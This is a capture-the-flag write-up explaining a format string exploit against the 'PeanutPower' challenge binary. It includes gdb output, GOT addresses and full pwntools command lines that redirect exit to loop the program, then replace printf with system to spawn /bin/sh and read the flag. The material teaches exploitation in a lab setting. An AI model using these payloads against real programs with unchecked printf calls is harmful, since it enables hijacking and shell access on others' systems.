 ```yaml
---
title:  "Writeup: Peanut Power"
date:   2019-04-22 14:00:00
categories: writeup
author: Tim Winters
layout: post
---
```

# PeanutPower

```c
void peanut(void)

{
  char buffer [512];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This is a format string attack.

## Step 1 - Overwrite exit
Whenever I'm solving a problem, the first thing I look for is where the user input is used, and how that can be exploited. In this case, the input is printed out via printf. This means two things, 1) we have a format string attack, and 2) we can control the first argument to any function if we overwrite printf with that function. 

My first instinct is to find a way of overwriting prtinf with `system`, since that will let us call `system("/bin/sh");`. The issue with this however, is printf is only called once, so if we overwrite it, it doesn't matter. 

To get around this, we need to overwrite `exit` with `peanut`, since that will let us continuously call printf. 

### Address of exit
Looking at the ~~Game of Thrones~~ Global Offset Table, `exit`'s entry is at `0x601038`. If we look at the data at this address via gdb

```
gdb-peda$ x/4xb 0x601038
0x601038:	0x56	0x05	0x40	0x00
```

`exit` points to  `0x400556`
### Address of peanut
```
gdb-peda$ p peanut
$1 = {void ()} 0x400666 <peanut>
```

We need to overwrite the first two bytes of exit with the first two bytes of peanut i.e `0x0556 -> 0x0666`

0x0666 = 1638

```
$ python -c "print '%p'*8 + 'a'*8" | ./peanutpower
0x6020290x7ffff7dd37900x61702570257025700x6020290xd0x70257025702570250x70257025702570250x6161616161616161aaaaaaaa
```
Looks like it's the 8th entry. 

Our exploit now looks like

```
$ (python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; cat) | ./peanutpower
```

If you run this, you'll be able to type anything in, and printf will spit it back out. We have successfully looped!

## Step 2 - Overwrite printf

This one is a little trickier. If we look at the entry for printf, we see that it is `0x601020`.
Examining these bytes in GDB we get 

### Address of printf

```
gdb-peda$ x/8xb 0x601020
0x601020:	0x00	0x28	0xa6	0xf7	0xff	0x7f	0x00	0x00
```

Note: If you examine this address right after you start gdb, it will point to the PLT entry, NOT the addres in libc. Examine the address after printf has been called once. 

### Address of system

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
```

We need to overwrite the last *4* bytes of print with the last 4 bytes of system (0xf7a62800 -> 0xf7a52390)

Start by converting these bytes to decimal

|Hex| Decimal|
|---|--------|
|0x2390|9104|
|0xf7a5| 63397|

Since 0x2390 < 0xf7a5, we want to write this value first. This is because %n is cumulative, and we wouldn't be able to write the lower value if we did it second.

Let's figure out our n offsets.

```
	(python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; python -c "from pwn import *; print '%p'*8 + '%p'*8 + p64(0x601020) + p64(0x601022)"; cat) | ./peanutpower
0x6020410x7ffff7dd37900xa000000000060100x6020410x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x6010200x6010220x7ffff7ff000a0x7ffff7a0d000(nil)0x7ffff7dd1b200x1000
```
Notice how I am using `'%p'*8` to give me exactly 16 bytes. This is important becuase we need the same amount of characters in our final string
Looks like the addresses we put on the stack are at 10 and 11. 


```
python -c "from pwn import *; print '%9104u%10$hn'.ljust(16) + '%54289u%11$hn'.ljust(16) + p64(0x601020) + p64(0x601022)"
```

Look at the second printf string. It doesn't have the value we put calculated earlier. Instead, it has 63397 - 9104 - 4. It's easy to see where 9104 comes from, but what about that 4? Well, the ljust(16) puts 4 extra spaces after the first format string, and they count toward the total that the next %n writes, so we need to subtract 4 from our expected value. 

```
(python -c "from pwn import *; print '%1638u%8\$hn'.ljust(16) + p64(0x601038)"; python -c "from pwn import *; print '%9104u%10\$hn'.ljust(16) + '%54289u%11\$hn'.ljust(16) + p64(0x601020) + p64(0x601022)";echo "/bin/sh"; echo "cat flag.txt") | ./peanutpower
```


 



